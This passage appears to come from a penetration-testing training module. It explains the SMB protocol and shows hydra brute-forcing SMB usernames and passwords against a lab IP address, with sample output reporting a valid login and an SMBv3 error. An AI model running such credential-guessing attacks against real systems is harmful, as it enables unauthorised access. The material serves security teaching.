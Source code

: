 ## SMB

[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

### **Hydra - SMB**

```shell-session
$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found
```

However, we may also get the following error describing that the server has sent an invalid reply.

### **Hydra - Error**

```shell-session
$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).
